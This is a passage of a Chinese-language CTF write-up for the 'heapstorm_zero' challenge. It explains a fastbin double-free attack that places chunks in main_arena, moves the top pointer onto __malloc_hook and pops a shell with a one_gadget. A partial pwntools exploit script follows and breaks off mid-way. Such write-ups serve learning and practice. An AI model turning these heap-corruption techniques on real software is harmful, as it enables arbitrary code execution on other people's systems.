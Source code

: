```python
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>重叠了之后leak就很简单了不说了，我在这里创建了**三个重叠堆块**（莽点准没错）。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>**1.首先**double free第一组0x40大小的堆块，修改fd，alloc两次后fd被放入**fastY数组，也就是main_arena上**，这里我把fd修改为了0x30（不然再用0x40大小的堆块分配上去会覆盖原来的fd）。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>**2.再次**double free第二组0x30大小的堆块，**利用之前放上去的fd绕过size检查把fastbin分配进main_arena**，因为程序允许分配的堆块太小不足以分配到top指针，所以我在堆块的末尾放了个0x40大小，供第三组堆块分配上去。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>**3.然后**第三组堆块就可以直接覆盖top指针，**注意堆块由calloc分配会清空块内数据，所以chunk base也要leak一下计算数据输入到第三组堆块里以恢复main_arena的环境防止程序崩溃**，把top指针改到\__malloc_hook上就可以了，下次分配新的fastbin的时候就会被分配到__malloc_hook上，成功getshell。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我的利用方法非常粗鲁，脚本也不美观，所以凑合着看看哈：</font></br>

**Exploit**
```python
from pwn import *

p=process('./heapstorm_zero')
elf=ELF('./libc64.so')
DEBUG=1

one_gadget=0x4526a

if DEBUG:
    context.log_level=True

sd=lambda x:p.send(x)
sl=lambda x:p.sendline(x)
sla=lambda a,x:p.sendlineafter(a,x)
rv=lambda x:p.recvuntil(x)

def add(size,content=''):
    sla('Choice:','1')
    sla('size:',str(size))
    sla('content:',content)
    
def view(index):
    sla('Choice:','2')
    sla('index:',str(index))

def dele(index):
    sla('Choice:','3')
    sla('index: ',str(index))

def scanf_consli():
    sla('Choice:','3'*0x500)

add(0x20)
for i in range(20):
    add(0x30)   # 1-20

dele(0)
for i in range(4,10):
    dele(i)

scanf_consli()

add(0x38,'a'*0x30+p64(0x120))   # 0
add(0x38,'a'*0x30+p32(0x40))    # 4
add(0x38)                       # 5
add(0x38)                       # 6
add(0x28)                       # 7
add(0x28)                       # 8

# use largebin malloc_consolidate
```